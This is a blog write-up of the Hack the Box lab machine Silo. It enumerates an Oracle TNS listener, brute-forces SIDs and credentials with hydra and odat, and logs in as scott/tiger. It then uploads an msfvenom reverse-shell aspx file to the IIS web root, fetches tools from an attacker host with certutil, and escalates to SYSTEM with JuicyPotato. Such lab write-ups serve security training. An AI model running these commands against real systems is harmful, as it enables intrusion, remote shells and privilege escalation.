 ```yaml
---
title: Hack the Box - Silo
date: 2022-08-20 00:43:00 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


![Silo](/assets/HackTheBox/Silo/Silo.png)

# Silo Overview

## Machine Details

|IP|Hostname|Operating System|
|---|---|---|
|10.10.10.82|Silo|Windows|

## Path to Exploitation

This was a new service to me that I had never seen before. To exploit this box, we'll take advantage of an un-authenticated Oracle TNS listener which discloses a set of valid credentials to the database that we can use to get our foothold. Once on the box, the privilege escalation is pretty straight-forward. It's another impersonation exploit using the juicy potato exploit.

# Silo Enumeration

## Full Port Scan

```bash
nmap 10.10.10.82 -p- -oA Silo/nmap/full-port --open -Pn -vv
```

Which Resulted In:

|PORT|SERVICE|
|----|-------|
|80|http|
|135|msrpc|
|139|netbios-ssn|
|445|microsoft-ds|
|1521|oracle|
|5985|wsman|
|8080|http-proxy|
|47001|winrm|
|49152|unknown|
|49153|unknown|
|49154|unknown|
|49155|unknown|
|49159|unknown|
|49160|unknown|
|49161|unknown|
|49162|unknown|

## Service Scan

```bash
nmap 10.10.10.82 -p 80,135,139,445,1521,5985,8080,47001,49152,49153,49154,49155,49159,49160,49161,49162 -sC -sV -oA Silo/nmap/service-scan -Pn
```

Which Resulting In:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|80|http|IIS httpd 8.5|
|135|msrpc|Windows RPC|
|139|netbios-ssn|Windows netbios-ssn|
|445|microsoft-ds|Windows Server 2008 R2 - 2012 microsoft-ds|
|1521|oracle-tns|TNS listener 11.2.0.2.0 (unauthorized)|
|5985|http|HTTPAPI httpd 2.0 (SSDP/UPnP)|
|8080|http|XML DB Enterprise Edition httpd|
|47001|http|HTTPAPI httpd 2.0 (SSDP/UPnP)|
|49152|msrpc|Windows RPC|
|49153|msrpc|Windows RPC|
|49154|msrpc|Windows RPC|
|49155|msrpc|Windows RPC|
|49159|oracle-tns|TNS listener (requires service name)|
|49160|msrpc|Windows RPC|
|49161|msrpc|Windows RPC|
|49162|msrpc|Windows RPC|

# Enumerating Oracle TNS

Using the resources found on the following site, we can enumerate and exploit the service.

[PenTesting Oracle Listener](https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener)

We'll start with SID enumeration:

```shell
$ hydra -L /usr/share/metasploit-framework/data/wordlists/sid.txt -s 1521 10.10.10.82 oracle-sid
```

We identify the following SIDs

![Identified SIDs](/assets/HackTheBox/Silo/identified-sids.png "Identified SIDs")

We can then try to bruteforce credentials using the identified SIDs, to do this we us the odat command line tool:
```shell
$ odat all -s 10.10.10.82 -p 1521 -d XE
```

Found valid credentials
![Valid Credentials](/assets/HackTheBox/Silo/valid-creds.png "Valid Credentials")

```cmd
scott : tiger
```

We are able to login into the database now

```shell
$ sqlplus scott/tiger@10.10.10.82/XE 'as sysdba';
```

![DataBase Login](/assets/HackTheBox/Silo/db-login.png "DataBase Login")

After researching, I was unable to find anything useful in terms of interacting with the database. 

the odat command line tool also contains methods to execute commands remotely, we can use this feature to upload a malicious payload file.

# Shell on Host

We can also try uploading a payload file to the web directory with the odat command line tool. 

Generate the payload:

```shell
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 -f aspx -o evil.aspx
```

Upload the file with the following command to place it in the web root directory:

```shell
$ odat dbmsxslprocessor -s 10.10.10.82 -d XE -U scott -P tiger --putFile "C:\inetpub\wwwroot" "evil.aspx" "/home/pharo/HacktheBox/Silo/evil.aspx" --sysdba
```

![Payload Upload](/assets/HackTheBox/Silo/payload-upload.png "Uploaded Payload")

Setup a listener and navigate to http://10.10.10.82/evil.aspx

![Trigger the Exploit](/assets/HackTheBox/Silo/trigger-exploit.png "Trigger the Exploit")

We see we've caught a shell as the defaultapppool user

![Intiail Foothold](/assets/HackTheBox/Silo/foothold.png "Intial Foothold")

# Local Enumeration

## User Enumeration

```shell
C:\> whoami /priv
```

![User Privileges](/assets/HackTheBox/Silo/user-priv.png "User Privileges")

```shell
C:\> whoami /groups
```

![User Groups](/assets/HackTheBox/Silo/user-groups.png "User Groups")

## System Information

![System Information](/assets/HackTheBox/Silo/system-info.png "System Information")

We see that we have the SeImpersonatePrivilege and the host is running on Windows Server 2012 R2 Standard. We can likely use the JuicyPotato Exploit to escalate our privileges.

# Privilege Escalation

We'll use the Juicy Potato exploit. Start by generating a reverse shell payload.

```shell
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 -f exe -o evil.exe
```

upload both the payload and the exploit to the machine

```shell
C:\> certutil -urlcache -f http://10.10.14.2/juicypotato.exe juicypotato.exe
C:\> certutil -urlcache -f http://10.10.14.2/evil.exe evil.exe
```

Before running the exploit we need to identify a valid CLSID. To do this we use the [test_clsid.bat](https://github.com/ohpe/juicy-potato/blob/master/Test/test_clsid.bat) file and the list of[ CLSIDs](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2012_Datacenter) for our host OS

Upload both of the files to the host as well

```shell
C:\> certutil -urlcache -f http://10.10.14.2/test_clsid.bat test_clsid.bat
C:\> certutil -urlcache -f http://10.10.14.2/CLSID.list CLSID.list
```

The script will go through and print all the tested CLSIDs and whenever the number increases it indicates a valid CLSID. Although in my experience not all the "valid" CLSIDs actually worked.

After testing several "valid" CLSIDs I found one that finally worked

```shell
C:\> juicypotato.exe -l 1337 -p "C:\temp\evil.exe" -t * -c {69AD4AEE-51BE-439b-A92C-86AE490E8B30}
```

On our listener we see we have a shell as the SYSTEM account

![Privilege Escalation](/assets/HackTheBox/Silo/priv-esc.png "SYSTEM Shell")